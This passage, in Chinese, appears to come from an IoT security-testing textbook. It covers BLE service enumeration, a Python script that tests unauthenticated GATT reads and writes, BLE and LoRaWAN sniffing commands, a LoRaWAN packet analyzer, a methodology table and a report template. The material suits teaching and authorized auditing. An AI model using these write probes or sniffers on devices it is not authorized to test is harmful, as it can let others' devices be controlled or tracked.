  -e btle.advertising_header.length
```

#### BLE GATT服务枚举

```bash
# === 使用gatttool枚举设备服务和特征值 ===
# 步骤1: 列出所有主服务（Primary Service）
gatttool -b AA:BB:CC:DD:EE:FF --characteristics

# 步骤2: 读取指定特征值
gatttool -b AA:BB:CC:DD:EE:FF --char-read -a 0x002a
# 0x002a是特征值的句柄地址

# 步骤3: 写入特征值（测试写入控制命令）
gatttool -b AA:BB:CC:DD:EE:FF --char-write -a 0x002a -n 01
# 尝试向设备写入控制命令

# === 使用nRF Connect（Android/iOS） ===
# 更友好的GUI工具，可交互式浏览和操作所有服务/特征
# 下载: https://www.nordicsemi.com/Products/Development-tools/nRF-Connect-for-mobile

# === 使用bleak（Python）自动化枚举 ===
```

```python
#!/usr/bin/env python3
"""
ble_enumerator.py — BLE设备全面枚举
自动扫描、连接、枚举所有服务和特征值
"""
import asyncio
from bleak import BleakScanner, BleakClient

class BLEEnumerator:
    def __init__(self):
        self.devices = []
        self.services_data = {}

    async def scan(self, duration=10):
        """扫描BLE设备"""
        print(f"[*] 扫描BLE设备，持续 {duration} 秒...")
        devices = await BleakScanner.discover(timeout=duration)
        self.devices = list(devices)

        print(f"\n[+] 发现 {len(self.devices)} 个BLE设备:")
        print(f"{'MAC地址':<20} {'RSSI':>6}  {'名称':<30}")
        print("-" * 60)
        for dev in sorted(self.devices, key=lambda d: d.rssi, reverse=True):
            name = dev.name or "(未命名)"
            print(f"{dev.address:<20} {dev.rssi:>5}dB  {name:<30}")

        return self.devices

    async def enumerate_services(self, address):
        """连接设备并枚举所有服务和特征值"""
        print(f"\n[*] 连接设备: {address}")
        try:
            async with BleakClient(address) as client:
                services = client.services
                print(f"[+] 服务数量: {len(services)}")

                for service in services:
                    print(f"\n  服务: {service.uuid} ({service.description})")
                    for char in service.characteristics:
                        props = ", ".join(char.properties)
                        print(f"    特征: {char.uuid}")
                        print(f"      描述: {char.description}")
                        print(f"      属性: {props}")

                        # 尝试读取（如果支持读取）
                        if "read" in char.properties:
                            try:
                                value = await client.read_gatt_char(char)
                                # 尝试解码为文本
                                try:
                                    text = value.decode("utf-8")
                                    print(f"      值: {text}")
                                except UnicodeDecodeError:
                                    print(f"      值: {value.hex()}")
                            except Exception as e:
                                print(f"      值: 读取失败 ({e})")

                        # 检查描述符（可能包含ATT权限信息）
                        for desc in char.descriptors:
                            try:
                                dval = await client.read_gatt_descriptor(desc)
                                print(f"      描述符 {desc.uuid}: {dval.hex()}")
                            except Exception:
                                pass

                return services
        except Exception as e:
            print(f"[-] 连接失败: {e}")
            return None

    async def test_unauthenticated_read(self, address):
        """测试未认证情况下能读取哪些特征值"""
        print(f"\n[*] 测试未认证读取 — {address}")
        sensitive_chars = []
        try:
            async with BleakClient(address) as client:
                for service in client.services:
                    for char in service.characteristics:
                        if "read" in char.properties:
                            try:
                                value = await client.read_gatt_char(char)
                                sensitive_chars.append({
                                    "service": str(service.uuid),
                                    "characteristic": str(char.uuid),
                                    "value_size": len(value),
                                    "description": char.description
                                })
                            except Exception:
                                pass  # 需要认证
        except Exception as e:
            print(f"[-] 测试失败: {e}")

        print(f"[+] 未认证可读特征值: {len(sensitive_chars)} 个")
        for c in sensitive_chars:
            print(f"    {c['characteristic']} ({c['description']}): {c['value_size']} bytes")
        return sensitive_chars

    async def test_write_without_auth(self, address):
        """测试未认证写入（验证写入保护）"""
        print(f"\n[*] 测试未认证写入 — {address}")
        write_results = []
        test_payload = b"\x01"  # 简单测试payload

        try:
            async with BleakClient(address) as client:
                for service in client.services:
                    for char in service.characteristics:
                        if "write" in char.properties:
                            try:
                                await client.write_gatt_char(char, test_payload)
                                write_results.append({
                                    "characteristic": str(char.uuid),
                                    "success": True,
                                    "description": char.description
                                })
                                print(f"  [!] 写入成功: {char.uuid} ({char.description})")
                            except Exception as e:
                                write_results.append({
                                    "characteristic": str(char.uuid),
                                    "success": False,
                                    "error": str(e)
                                })
        except Exception as e:
            print(f"[-] 测试失败: {e}")

        unprotected = [r for r in write_results if r["success"]]
        print(f"\n[+] 未认证可写特征值: {len(unprotected)} 个")
        return write_results

if __name__ == "__main__":
    import sys
    enumerator = BLEEnumerator()

    if len(sys.argv) > 1:
        # 直接枚举指定设备
        address = sys.argv[1]
        asyncio.run(enumerator.enumerate_services(address))
    else:
        # 先扫描，再枚举
        asyncio.run(enumerator.scan(duration=10))
```

#### BLE嗅探与流量捕获

```bash
# === Ubertooth One嗅探 ===
# Ubertooth One是专业的BLE嗅探硬件（$120-150）

# 固件更新
ubertooth-util -v          # 查看版本
ubertooth-btle -f          # 实时BLE嗅探
ubertooth-btle -f -c capture.pcap  # 捕获到pcap文件
ubertooth-btle -t AA:BB:CC:DD:EE:FF  # 追踪特定设备

# === nRF52840 + Sniffle嗅探（推荐，更稳定） ===
git clone https://github.com/nccgroup/Sniffle.git
cd Sniffle
# 刷写Sniffle固件到nRF52840 Dongle
python3 -m Sniffle.sniffle_hw --help

# 捕获BLE广播和连接数据
python3 -m Sniffle.sniffle_hw -c 37 -w capture.pcap
# -c: 广播信道（37/38/39）
# -w: 输出文件

# === Wireshark分析BLE流量 ===
# 打开pcap文件
wireshark capture.pcap

# 关键过滤器:
# btle                                — 所有BLE链路层帧
# btle.data_header.length > 0         — 有数据的帧
# btatt                               — ATT层协议
# btatt.opcode == 0x0a                — Read Request
# btatt.opcode == 0x12                — Write Request
# btsmp                               — SMP配对相关帧
# btsmp.octet0 == 0x01                — Pairing Request
# btsmp.octet0 == 0x02                — Pairing Response

# === 使用Bettercap嗅探BLE ===
sudo bettercap -eval "ble.recon on; set ble.write_filter .+; ble.write on"
# ble.write on: 记录所有BLE写操作
# ble.write_filter: 过滤器（正则匹配设备名称）
```

#### BLE配对安全测试

```bash
# 测试BLE设备的配对模式安全性
# Just Works模式（无MITM防护）是最弱的配对方式

# 使用bluetoothctl测试配对
bluetoothctl
# [bluetooth]# scan on
# [bluetooth]# pair AA:BB:CC:DD:EE:FF
# 观察配对过程中是否要求输入PIN码或确认数字

# 使用smp_fuzzer测试SMP协议
# SMP（Security Manager Protocol）处理BLE配对
# 常见漏洞: KNOB攻击（降级密钥长度）

# 检测是否支持LE Secure Connections
# 在配对请求中查看OOB Flag和AuthReq字段
tshark -r ble_pairing.pcap -Y "btsmp" -T fields \
  -e btsmp.octet0 \
  -e btsmp.octet1 \
  -e btsmp.max_enc_key_size
```

#### BLE安全测试检查清单

| 测试项 | 工具 | 风险说明 |
|-------|------|---------|
| 未认证服务发现 | gatttool/bleak | 暴露设备能力信息 |
| 未认证数据读取 | gatttool/bleak | 隐私/敏感数据泄露 |
| 未认证数据写入 | gatttool/bleak | 设备被远程控制 |
| 配对模式检测 | Wireshark | Just Works=无MITM防护 |
| 地址追踪 | bettercap | 用户行为可被追踪 |
| BLE流量嗅探 | Ubertooth/Sniffle | 加密前数据可被截获 |
| RSSI定位 | bettercap | 设备物理位置暴露 |

---

### 22.2.5 LoRaWAN协议安全测试

LoRaWAN覆盖范围极广（城市2-5km，郊区15km+），攻击者可以在远距离被动监听所有上行流量。

#### LoRa信号捕获

```bash
# === RTL-SDR配置 ===
# LoRaWAN频段: EU868(868MHz), US915(915MHz), CN470(470MHz)
# 需要RTL-SDR硬件 + 对应频段天线

# 安装rtl_433（广谱信号解码器）
sudo apt install rtl-sdr rtl-433 -y

# 使用rtl_433捕获Sub-GHz信号
rtl_433 -f 868.1M -g 40 -S all  # 868.1MHz (EU868)
rtl_433 -f 915.0M -g 40 -S all  # 915MHz (US915)

# 使用SDR#或GQRX进行频谱分析
# 观察LoRa信号的特征:
# - 带宽: 125kHz / 250kHz / 500kHz
# - 扩频因子: SF7-SF12（影响距离和速率）
# - 信号呈现明显的"锯齿"模式

# === LoRaWAN数据包解码 ===
# 使用lorank或loraserver进行LoRaWAN协议解码
pip install pyLoRa
# 或使用LoRa App Server的解码功能
```

```python
#!/usr/bin/env python3
"""
lorawan_analyzer.py — LoRaWAN流量分析基础
分析捕获的LoRaWAN数据包，检查安全配置
"""
import struct
from datetime import datetime

class LoRaWANAnalyzer:
    """分析LoRaWAN数据包结构和安全特性"""

    # LoRaWAN消息类型
    MSG_TYPES = {
        0: "Join Request",
        1: "Join Accept",
        2: "Unconfirmed Data Up",
        3: "Unconfirmed Data Down",
        4: "Confirmed Data Up",
        5: "Confirmed Data Down",
        6: "RFU",
        7: "Proprietary"
    }

    def parse_join_request(self, data):
        """解析Join Request（明文，始终不加密）"""
        if len(data) < 19:
            return None

        join_type = data[0]
        if join_type != 0x00:
            return None

        app_eui = data[1:9]
        dev_eui = data[9:17]
        dev_nonce = data[17:19]
        mic = data[19:23] if len(data) >= 23 else None

        result = {
            "type": "Join Request",
            "app_eui": app_eui[::-1].hex(),  # 小端序转大端
            "dev_eui": dev_eui[::-1].hex(),
            "dev_nonce": dev_nonce[::-1].hex(),
            "mic": mic.hex() if mic else None,
        }

        # 安全检查
        result["security_notes"] = []
        if int.from_bytes(dev_nonce, "little") < 0x10000:
            result["security_notes"].append(
                "DevNonce值过小，可能易于预测"
            )

        return result

    def analyze_join_accept(self, data):
        """分析Join Accept的安全特性"""
        result = {
            "type": "Join Accept",
            "security_notes": []
        }

        # Join Accept使用AppKey的AES解密
        # 解密后的字段包含AppNonce, NetID, DevAddr等
        # 如果能解密，说明攻击者已获取AppKey

        return result

    def check_abp_vs_otaa(self, data):
        """检测设备使用ABP还是OTAA入网"""
        result = {
            "activation": "unknown",
            "security_notes": []
        }

        # 有Join Request = OTAA（安全，会派生会话密钥）
        # 直接发送数据帧 = ABP（不安全，使用固定密钥）
        if data[0] == 0x00:
            result["activation"] = "OTAA"
            result["security_notes"].append("使用OTAA入网（推荐）")
        else:
            result["activation"] = "ABP"
            result["security_notes"].append(
                "⚠ ABP模式: 密钥硬编码在设备中，无法轮换，"
                "长期使用同一密钥存在安全风险"
            )

        return result

    def analyze_frame_counter(self, fcnt):
        """分析帧计数器安全性"""
        notes = []
        if fcnt == 0:
            notes.append("⚠ 帧计数器为0: 设备可能刚重置或使用ABP")
        elif fcnt < 100:
            notes.append("⚠ 帧计数器异常低: 可能存在重置风险")
        elif fcnt > 0xFFFFFF00:
            notes.append("⚠ 帧计数器即将溢出: 需要触发Rejoin")
        return notes

    def generate_report(self, packets):
        """生成安全审计报告"""
        report = {
            "timestamp": datetime.now().isoformat(),
            "total_packets": len(packets),
            "join_requests": 0,
            "otaa_devices": set(),
            "abp_devices": set(),
            "security_findings": []
        }

        for pkt in packets:
            if pkt.get("type") == "Join Request":
                report["join_requests"] += 1

        return report

if __name__ == "__main__":
    analyzer = LoRaWANAnalyzer()
    print("LoRaWAN安全分析器")
    print("=" * 40)
    print("支持的分析:")
    print("  1. Join Request解析（DevEUI/AppEUI/DevNonce）")
    print("  2. OTAA vs ABP模式检测")
    print("  3. 帧计数器安全性分析")
    print("  4. AppKey泄露检测")
    print()
    print("使用方法:")
    print("  1. 使用RTL-SDR + LoRa解码器捕获流量")
    print("  2. 将捕获数据传入此分析器")
    print("  3. 查看安全审计报告")
```

---

### 22.2.6 协议安全测试方法论总结

#### 通用测试流程



#### 跨协议通用测试维度

| 测试维度 | TCP/IP协议 (MQTT/CoAP) | 射频协议 (Zigbee/BLE) |
|---------|----------------------|---------------------|
| 信息收集 | 端口扫描、服务指纹 | 信道扫描、广播嗅探 |
| 认证测试 | 匿名访问、弱口令、证书验证 | 配对模式、密钥交换 |
| 加密测试 | TLS版本/密码套件审计 | 链路层加密检测 |
| 授权测试 | ACL/主题权限越权 | 特征值读写保护 |
| 注入测试 | 消息注入、命令执行 | 帧注入、重放攻击 |
| DoS测试 | 连接耗尽、消息洪泛 | 离网攻击、干扰 |
| 持久化 | 凭据泄露、Token劫持 | 密钥嗅探、追踪 |

#### 测试报告模板

```markdown
# IoT通信协议安全测试报告

## 概述
- 目标范围: [IP/设备范围]
- 测试协议: [MQTT/CoAP/Zigbee/BLE/LoRaWAN]
- 测试时间: [起止日期]
- 使用工具: [列出所有工具和硬件]

## 发现汇总

### 严重（需要立即修复）
| # | 发现 | 影响 | 证据 |
|---|------|------|------|

### 高危（需要短期修复）
| # | 发现 | 影响 | 证据 |
|---|------|------|------|

### 中等（建议修复）
| # | 发现 | 影响 | 证据 |
|---|------|------|------|

## 详细发现
[每个发现的具体描述、复现步骤、截图/证据]

## 加固建议
[按优先级排列的修复建议]
```

---

### 22.2.7 常见测试误区

**误区1：只测TCP/IP协议，忽略射频协议**

> IoT设备可能同时使用WiFi（MQTT/CoAP）和Zigbee/BLE。仅测试网络层协议会遗漏射频层的安全问题。完整的测试必须覆盖设备使用的所有通信通道。

**误区2：假设加密=安全**

> 设备声称使用TLS/AES加密不等于安全。需要验证：TLS版本是否过旧、密码套件是否安全、证书是否有效、密钥管理是否规范。许多设备虽然启用了加密，但使用的是硬编码密钥或不安全的TLS配置。

**误区3：忽略物理层测试**

> 射频协议（Zigbee/BLE/LoRa）的安全测试不能仅依赖软件工具。需要使用专用硬件（KillerBee/Ubertooth/RTL-SDR）在射频层进行嗅探和注入，才能发现链路层的安全问题。

**误区4：在生产环境直接测试**

> 所有协议安全测试都应在隔离的测试环境中进行。特别是DoS测试、重放攻击、帧注入等操作，在生产环境中可能导致设备离线、数据损坏甚至安全事故。

**误区5：忽略OTA更新通道**

> 即使通信协议本身安全，如果设备的OTA（空中升级）通道未加密或未认证，攻击者可以推送恶意固件绕过所有通信层的安全措施。OTA通道安全是协议安全测试的必要补充。
